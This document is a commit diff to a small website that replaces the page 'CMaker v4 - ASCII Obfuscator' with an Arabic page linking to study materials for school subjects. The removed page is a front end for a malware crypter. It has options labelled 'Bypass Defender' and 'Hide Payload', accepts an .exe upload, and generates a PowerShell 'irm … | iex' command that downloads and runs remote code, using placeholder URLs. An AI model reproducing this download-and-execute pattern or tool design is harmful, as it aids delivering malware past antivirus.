

Before and after one commit to eevkt/liz, a plain HTML site: page index.html in a window 1280 px wide. After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,220 +1,75 @@
 <!DOCTYPE html>
-<html lang="en">
+<html lang="ar" dir="rtl">
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>CMaker v4 - ASCII Obfuscator</title>
+    <title>موقع دراسي</title>
     <style>
         body {
+            background-color: #000;
+            color: #fff;
             font-family: Arial, sans-serif;
-            background-color: #1e1e1e;
-            color: white;
             margin: 0;
             padding: 0;
+            text-align: center;
+        }
+        header {
+            display: flex;
+            justify-content: space-between;
+            padding: 10px 20px;
+            align-items: center;
+            border-bottom: 2px solid #fff;
+        }
+        header img {
+            width: 100px;
+            height: auto;
         }
         .container {
-            max-width: 450px;
-            margin: 80px auto;
-            background-color: #2c2c2c;
-            padding: 30px;
-            border-radius: 15px;
-            box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.7);
-            text-align: center;
+            margin-top: 50px;
+            display: flex;
+            justify-content: center;
+            flex-wrap: wrap;
+            gap: 20px;
         }
-        h1 {
-            color: #9b59b6;
-            font-size: 2.5em;
-            margin-bottom: 20px;
+        .button {
+            background-color: #fff;
+            color: #000;
+            border: none;
+            padding: 15px 30px;
+            font-size: 18px;
+            cursor: pointer;
+            border-radius: 10px;
+            transition: background-color 0.3s;
         }
-        label {
-            display: block;
-            font-size: 1.1em;
-            margin-bottom: 8px;
-            text-align: left;
+        .button:hover {
+            background-color: #444;
+            color: #fff;
         }
-        input[type="text"], input[type="password"], input[type="file"] {
-            width: 100%;
-            padding: 12px;
-            margin-bottom: 20px;
-            background-color: #333;
-            border: 1px solid #9b59b6;
-            border-radius: 5px;
-            color: white;
-        }
-        .checkbox-group {
-            text-align: left;
-            margin-bottom: 20px;
-        }
-        .checkbox-group input[type="checkbox"] {
-            margin: 0 5px 10px;
-        }
-        .checkbox-group label {
-            font-size: 1em;
-            margin-bottom: 5px;
-        }
-        .file-button, button {
-            width: 100%;
-            padding: 12px;
-            background-color: #9b59b6;
-            border: none;
-            border-radius: 5px;
-            color: white;
-            font-size: 1.2em;
-            cursor: pointer;
-            margin-top: 10px;
-            transition: background-color 0.3s ease;
-        }
-        .file-button:hover, button:hover {
-            background-color: #8e44ad;
-        }
-        .file-label {
-            color: #ccc;
-            font-size: 0.9em;
-        }
-        .bottom-label {
-            margin-top: 30px;
-            color: #bbb;
-            font-size: 0.8em;
-        }
-        .error-msg {
-            color: #ff4c4c;
-            font-size: 0.9em;
-            margin-top: 10px;
-        }
-        .file-preview {
-            color: #ccc;
-            font-size: 0.9em;
-            margin-top: 10px;
-            text-align: left;
-        }
-        .ascii-preview {
-            background-color: #2d2d2d;
-            color: #d3d3d3;
-            padding: 15px;
-            margin-top: 20px;
-            font-family: monospace;
-            overflow-y: auto;
-            max-height: 150px;
-            border: 1px solid #444;
-            border-radius: 5px;
-        }
-        .copy-btn {
-            background-color: #27ae60;
-            border: none;
-            padding: 12px;
-            color: white;
-            cursor: pointer;
-            width: 100%;
-            margin-top: 10px;
-            transition: background-color 0.3s ease;
-        }
-        .copy-btn:hover {
-            background-color: #219653;
+        .button a {
+            text-decoration: none;
+            color: inherit;
         }
     </style>
 </head>
 <body>
 
-    <div class="container">
-        <h1>CMaker v4</h1>
+<header>
+    <h1>المواد الدراسية</h1>
+    <img src="https://raw.githubusercontent.com/username/repository/main/IMG_5386.png" alt="Logo">
+</header>
 
-        <form id="cmakerForm">
-            <label for="username">Username</label>
-            <input type="text" id="username" placeholder="Enter Username" required>
-
-            <label for="password">Password</label>
-            <input type="password" id="password" placeholder="Enter Password" required>
-
-            <div class="checkbox-group">
-                <input type="checkbox" id="shortCode">
-                <label for="shortCode">Short Code</label>
-
-                <input type="checkbox" id="bypassDefender">
-                <label for="bypassDefender">Bypass Defender</label>
-
-                <input type="checkbox" id="base64">
-                <label for="base64">BASE64</label>
-
-                <input type="checkbox" id="hidePayload">
-                <label for="hidePayload">Hide Payload</label>
-
-                <input type="checkbox" id="ascii">
-                <label for="ascii">ASCII</label>
-            </div>
-
-            <label class="file-label">Select File (only .exe)</label>
-            <input type="file" id="fileInput" class="file-button" accept=".exe">
-
-            <div id="filePreview" class="file-preview"></div>
-
-            <button type="submit">Submit</button>
-
-            <div id="errorMessage" class="error-msg"></div>
-
-            <div id="asciiPreview" class="ascii-preview" style="display: none;"></div>
-
-            <button id="copyButton" class="copy-btn" style="display: none;" type="button">Copy Code</button>
-        </form>
-
-        <p class="bottom-label">Author: xStrong</p>
-    </div>
-
-    <script>
-        const form = document.getElementById('cmakerForm');
-        const fileInput = document.getElementById('fileInput');
-        const errorMessage = document.getElementById('errorMessage');
-        const asciiPreview = document.getElementById('asciiPreview');
-        const copyButton = document.getElementById('copyButton');
-
-        form.addEventListener('submit', function(event) {
-            event.preventDefault(); // Prevent form from submitting traditionally
-
-            const username = document.getElementById('username').value;
-            const password = document.getElementById('password').value;
-            const file = fileInput.files[0];
-            const asciiChecked = document.getElementById('ascii').checked;
-            const shortCodeChecked = document.getElementById('shortCode').checked;
-
-            // Check for validation errors
-            if (!file) {
-                errorMessage.textContent = 'Please select a .exe file.';
-                return;
-            }
-
-            if (username === '' || password === '') {
-                errorMessage.textContent = 'Username and Password are required.';
-                return;
-            }
-
-            // Generate obfuscated code if Short Code is selected
-            if (shortCodeChecked) {
-                const rentryUrl = "https://rentry.co/your-static-url"; // Simulate the static page
-                const finalUrl = `https://www.shorturl.at/${btoa(rentryUrl)}`; // Simulate short URL creation
-                const obfuscatedCode = `Powershell "irm ${finalUrl} | iex"`;
-
-                // Display the generated code
-                asciiPreview.textContent = obfuscatedCode;
-                asciiPreview.style.display = 'block';
-
-                // Enable the copy button and store full ASCII string for copying
-                copyButton.style.display = 'block';
-                copyButton.setAttribute('data-ascii', obfuscatedCode);
-            } else {
-                errorMessage.textContent = 'Please check the Short Code option.';
-            }
-        });
-
-        // Copy ASCII to clipboard when "Copy" is clicked
-        copyButton.addEventListener('click', function() {
-            const asciiString = copyButton.getAttribute('data-ascii');
-
-            navigator.clipboard.writeText(asciiString).then(() => {
-                alert('Obfuscated code copied to clipboard!');
-            }).catch(err => {
-                console.error('Failed to copy text: ', err);
-            });
-        });
-    </script>
+<div class="container">
+    <button class="button">
+        <a href="https://vocational.edu.iq/wp-content/uploads/2024/01/%D8%AA%D8%B7%D8%A8%D9%8A%D9%82%D8%A7%D8%AA-%D8%A7%D9%84%D8%AD%D8%A7%D8%B3%D9%88%D8%A8-%D8%A7%D9%84%D8%A7%D9%88%D9%84-2023.pdf" target="_blank">تطبيقات الحاسوب</a>
+    </button>
+    <button class="button">اساسيات الكهرباء والالكترونيك</button>
+    <button class="button">مبادئ الاتصال والشبكات</button>
+    <button class="button">تجميع الحاسوب</button>
+    <button class="button">الطبيعيات</button>
+    <button class="button">اللغة العربية</button>
+    <button class="button">اللغة الانكليزية</button>
+    <button class="button">الرياضيات</button>
+</div>
 
 </body>
 </html>
```
